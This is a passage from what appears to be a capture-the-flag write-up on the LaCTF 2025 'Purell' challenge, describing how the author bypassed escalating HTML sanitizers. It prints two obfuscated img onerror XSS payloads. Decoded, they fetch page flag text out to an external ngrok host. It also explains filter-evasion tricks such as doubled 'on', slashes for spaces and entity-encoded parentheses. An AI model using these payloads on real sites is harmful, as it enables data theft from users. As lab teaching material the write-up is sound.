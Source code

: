 > ![Cyberchef Encoding->Base64->Hex](/images/LaCTF-2025/Purell/cyberchef.png "Cyberchef Encoding->Base64->Hex")
> 
> And I built the following payload:
> 
> ```html
> <img src=x oonnerror="eval(atob('\x5a\x6d\x56\x30\x59\x32\x67\x6f\x4a\x32\x68\x30\x64\x48\x42\x7a\x4f\x69\x38\x76\x59\x7a\x42\x69\x4e\x43\x30\x79\x4c\x54\x4d\x33\x4c\x54\x45\x32\x4e\x79\x30\x78\x4d\x44\x67\x75\x62\x6d\x64\x79\x62\x32\x73\x74\x5a\x6e\x4a\x6c\x5a\x53\x35\x68\x63\x48\x41\x2f\x5a\x6d\x78\x68\x5a\x7a\x30\x6e\x49\x43\x73\x67\x5a\x47\x39\x6a\x64\x57\x31\x6c\x62\x6e\x51\x75\x63\x58\x56\x6c\x63\x6e\x6c\x54\x5a\x57\x78\x6c\x59\x33\x52\x76\x63\x69\x67\x6e\x4c\x6d\x5a\x73\x59\x57\x63\x6e\x4b\x53\x35\x70\x62\x6d\x35\x6c\x63\x6c\x52\x6c\x65\x48\x51\x70'))">
> ```
> 
> By doing this, the `hex` text became `ascii`, which was encoded in `base64`. The `atob()` function decodes the `base64`, and finally, everything is executed by `eval()`. This allowed me to obtain the new token (`purell-token{html_7s_m4lf0rmed_bu7_no7_u}`) for `level 5` and the new part of the flag (`_4nd_z_`). Upon accessing the new level, another sanitization is introduced:
> 
> ```
> (html) => html .toLowerCase().replaceAll('script', '').replaceAll('on', '') .replaceAll('>', '') .replace(/\s/g, '')
> ```
> 
> A space replacement is added within the payload. After a few tests, I discovered that `HTML` interprets the `/` character as a space, so I replaced the `/` character in the previous payload instead of spaces and successfully got the injection (since the encoding process already eliminated all spaces).
>
>```html
> <img/src="x"/oonnerror="eval(atob('\x5a\x6d\x56\x30\x59\x32\x67\x6f\x4a\x32\x68\x30\x64\x48\x42\x7a\x4f\x69\x38\x76\x59\x7a\x42\x69\x4e\x43\x30\x79\x4c\x54\x4d\x33\x4c\x54\x45\x32\x4e\x79\x30\x78\x4d\x44\x67\x75\x62\x6d\x64\x79\x62\x32\x73\x74\x5a\x6e\x4a\x6c\x5a\x53\x35\x68\x63\x48\x41\x2f\x5a\x6d\x78\x68\x5a\x7a\x30\x6e\x49\x43\x73\x67\x5a\x47\x39\x6a\x64\x57\x31\x6c\x62\x6e\x51\x75\x63\x58\x56\x6c\x63\x6e\x6c\x54\x5a\x57\x78\x6c\x59\x33\x52\x76\x63\x69\x67\x6e\x4c\x6d\x5a\x73\x59\x57\x63\x6e\x4b\x53\x35\x70\x62\x6d\x35\x6c\x63\x6c\x52\x6c\x65\x48\x51\x70'))">
>```
>
> By sending it, I retrieved the new token (`purell-token{wh3n_th3_imp0st4_i5_5u5_bu7_th3r35_n0_sp4c3}`) for access to `level 6` and the new part of the flag (`un1v3rs3`). We have finally reached the last level, where an additional layer of sanitization is introduced:
> 
> ```
> (html) => html .toLowerCase().replaceAll('script', '').replaceAll('on', '') .replaceAll('>', '') .replace(/\s/g, '') .replace(/[()]/g, '')
> ```
> 
> All parentheses (`()`) are therefore removed. To call the `eval` and `atob` functions, parentheses are essential, so I started trying a few things and thought of using some sort of encoding. I then came up with the idea of encoding the parentheses into `HTML Entity` using CyberChef:
> 